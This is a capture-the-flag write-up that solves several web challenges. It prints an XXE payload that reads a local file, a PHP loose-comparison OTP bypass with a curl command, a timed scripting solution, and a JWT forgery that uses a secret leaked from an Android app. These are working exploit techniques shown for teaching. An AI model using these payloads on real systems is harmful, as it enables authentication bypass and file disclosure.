









Author: Akash Varunn D
username:@kvnn


Upon inspecting the page source, a suspicious JavaScript snippet was found handling the form submission. Instead of sending a standard POST request with form data, the script explicitly constructs an **XML document** on the client side:


```
// Intercept the form submit and send XML instead of form-encoded data
const xml = `<?xml version="1.0" encoding="UTF-8"?>
<feedback>
    <name>${name}</name>
    <message>${message}</message>
</feedback>`;
```

This reveals that the backend is parsing XML input. The phrase "accepted at face value" hints that the XML parser likely has **External Entities** enabled, making it vulnerable to **XXE Injection**.

 The Vulnerability (XXE)

XML External Entity (XXE) attacks occur when an XML parser is weakly configured to process custom Document Type Definitions (DTDs). An attacker can define a custom entity (e.g., `&xxe;`) that references a sensitive file on the server's filesystem. When the parser processes the XML, it replaces the entity with the contents of that file.

## Exploitation Process

### Step 1: Bypassing Client-Side Logic

We cannot simply type the exploit into the web page's "Message" box. The JavaScript code automatically wraps user input inside the `<message>` tags. An XXE attack requires declaring a `DOCTYPE` at the very top of the XML structure, which the JS wrapper prevents.

**Solution:** Intercept the request using **Burp Suite** (or use `curl`) to send a custom XML payload directly to the `/feedback` endpoint.

### Step 2: Crafting the Payload

We need a payload that:

1. Declares a `DOCTYPE`.
    
2. Defines an external entity (`SYSTEM`) pointing to the local file system.
    
3. References that entity inside the `<message>` element so the server reflects the file content back to us.
    

Initial Attempt:

Targeting file:///flag resulted in Message: None, indicating the file did not exist or was empty.

Successful Payload:

We adjusted the target to file:///flag.txt.

XML

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<feedback>
  <name>Hacker</name>
  <message>&xxe;</message>
</feedback>
```

### Step 3: Execution

Sending this payload via Burp Repeater resulted in the server parsing the `&xxe;` entity, reading `/flag.txt`, and returning the content in the HTTP response.




To prevent XXE vulnerabilities, the XML parser configuration must explicitly disable DTDs and external entities.

**Python (lxml) Example:**

Python

```
# VULNERABLE:
# parser = etree.XMLParser(resolve_entities=True)

# SECURE:
parser = etree.XMLParser(resolve_entities=False, no_network=True)
tree = etree.fromstring(xml_input, parser)
```

---

2nd 


---


Upon accessing the challenge URL, we are presented with a login page titled "Triangle - Log in to get the surprise." The form requests a Username, Password, and three distinct One-Time Passwords (OTPs).

We begin by inspecting the HTML source code (`Ctrl+U` or Right Click -> View Page Source). At the bottom of the HTML, we find a suspicious comment left by the developers:


This comment reveals two critical pieces of information:

1. **Backup Files:** There are leftover `.bak` files on the server.
    
2. **Filenames:** The authentication logic is likely handled by `google2fa.php`, and the main login logic (inferred from the `fetch` request in the script) is `login.php`.

    

### **2. Source Code Retrieval**

Based on the hint, we attempt to download the backup files by appending `.bak` to the filenames.

- **Request:** `GET /login.php.bak`
    
- **Request:** `GET /google2fa.php.bak`
    

Both files are successfully downloaded, giving us the server-side source code.

### **3. Code Analysis**

#### **Analyzing `login.php`**


First, we look at the main login script to find valid credentials and understand the flow.

1. Hardcoded Credentials:
    
    Lines 14-15 reveal the user database:
    
    PHP
    
    ```
    "admin" => [
        "password_hash" => password_hash("admin", PASSWORD_DEFAULT),
        // ... keys ...
    ]
    ```
    
    The username is **`admin`**. The password hash is generated from the string **`admin`**.
    
2. The OTP Check:
    
    Lines 34-42 show how the OTPs are verified:
    
    PHP
    
    ```
    if (!Google2FA::verify_key($user_data['key1'], $_DATA['otp1'])) {
        json_die('wrong otp1', 'otp1');
    }
    // Repeats for otp2 and otp3
    ```
    
    It calls the `verify_key` function from the `Google2FA` class.
    

#### **Analyzing `google2fa.php`**

Next, we examine the `verify_key` function to see how it compares the user's input against the secret key.

1. The Vulnerable Line:
    
    On line 110, inside verify_key, we see the actual comparison:
    
    PHP
    
    ```
    if (self::oath_hotp($binarySeed, $ts) == $key)
        return true;
    ```
    
2. The Flaw (Type Juggling):
    
    The code uses the loose comparison operator (==) instead of the strict comparison operator (===).
    
    - `self::oath_hotp(...)` returns the valid OTP as a **String** (e.g., `"592834"`).
        
    - `$key` is the user input `$_DATA['otp1']`.
        
    
    **In PHP:** If you compare a standard **String** to a **Boolean `true`** using `==`, the result is `TRUE`.
    
    - `"123456" == true` $\rightarrow$ **True**
        

### **4. Exploitation Strategy**

To bypass the OTP check, we do not need to generate the correct numbers. We simply need to force the server to compare the correct OTP string against a boolean `true`.

The web page uses JavaScript `fetch` to send JSON data. We can intercept this request and modify the JSON types.

**Normal Request:**

JSON

```
{
  "username": "admin",
  "password": "admin",
  "otp1": "123456",
  "otp2": "123456",
  "otp3": "123456"
}
```

Exploit Payload:

We change the OTP values from strings ("...") to raw booleans (true).

JSON

```
{
  "username": "admin",
  "password": "admin",
  "otp1": true,
  "otp2": true,
  "otp3": true
}
```

### **5. Execution**

We can execute this using `curl` or by using Burp Suite Repeater.

**Using Curl:**

Bash

```
curl -X POST https://triangle-services-ctf.com/login.php \
     -H "Content-Type: application/json" \
     -d '{"username": "admin", "password": "admin", "otp1": true, "otp2": true, "otp3": true}'
```

### **6. Result**

The PHP script processes the boolean `true`. The loose comparison `"OTP_STRING" == true` evaluates to true for all three keys. The server bypasses the checks and returns the flag.

**Response:**


**Programming/scripting - ques1**




First, we attempted to inspect the format of the data returned by the `/task` endpoint. Since the instructions warned about a timer, we knew we had to script this interaction.

We ran a preliminary Python script to print the raw response from `/task`:

Python

```
r = requests.get("http://15.206.47.5:9090/task")
print(r.text)
```

This confirmed that the target string is embedded inside a `<p>` tag, prefixed with `"Here is the input string: "`.

To solve this, we needed a script that could perform the operations faster than a human. The critical component was maintaining **Session Persistence**.

If we used a standard `requests.get` followed by `requests.post`, the server would treat them as two different users (or a new session), and the timer validation would fail. We used `requests.Session()` to ensure cookies and session identifiers were preserved between the GET and POST requests.

**The Algorithm:**

1. **Initialize Session:** Start `requests.Session()`.
    
2. **GET Request:** Fetch `/task`.
    
3. **Extraction:** Use Regex (`Here is the input string:\s*([a-zA-Z0-9]+)`) to isolate the random string.
    
4. **Transformation:**
    
    - `reversed_str = original[::-1]`
        
    - `b64_encoded = base64.b64encode(reversed_str)`
        
    - `final_payload = f"CSK__{b64_encoded}__2025"`
        
5. **POST Request:** Send the payload to `/submit` instantly.

import requests
import base64
import re

BASE_URL = "http://15.206.47.5:9090"
TASK_URL = f"{BASE_URL}/task"
SUBMIT_URL = f"{BASE_URL}/submit"

def solve():
    # 1. Start a Session to maintain the timer/cookie state
    s = requests.Session()
    
    # 2. Fetch the task
    try:
        response = s.get(TASK_URL)
        response.raise_for_status()
    except Exception as e:
        print(f"[-] Connection failed: {e}")
        return

    # 3. Extract the string using Regex
    # Matches "Here is the input string: " followed by alphanumeric characters
    match = re.search(r"Here is the input string:\s*([a-zA-Z0-9]+)", response.text)
    
    if not match:
        print("[-] Could not find the input string. Check regex.")
        return
        
    random_string = match.group(1)
    print(f"[+] Received String: {random_string}")

    # 4. Process the string
    # Reverse
    reversed_str = random_string[::-1]
    # Base64 Encode (must be bytes)
    b64_encoded = base64.b64encode(reversed_str.encode()).decode()
    # Format
    payload = f"CSK__{b64_encoded}__2025"
    
    print(f"[+] Calculated Payload: {payload}")

    # 5. Submit
    # Sending as raw body data
    result = s.post(SUBMIT_URL, data=payload)
    
    print("\n[+] Server Response:")
    print(result.text)

if __name__ == "__main__":
	solve()


**Web3**

By going into the given url 
https://bevigil.com/report/com.strikebank.netbanking


I started by analyzing the Android application's static code using an automated scanning tool (BeVigil). The report revealed several critical hardcoded secrets in the `resources/res/values/strings.xml` file:




upon seeing the code i found the secret cookie 


upon find this and further analysis i found this in hosts which lead me to this







After loggin in as the user i got nothing like there was no endpoint and things to do so i decided to inspect and see if there is anthing commented on the source code but nothing , then i went onto the application tab to see if we can do anything with the cookie with the realisation of we got a **secret jwt token from first **


this decoded to this and i thought of changing the name to  admin and signing it with this secret 
str!k3b4nk@1009%sup3r!s3cr37 that we found from the previous

changed the cookie in the application tab


reloaded the page and  got the flag!!





##PART2


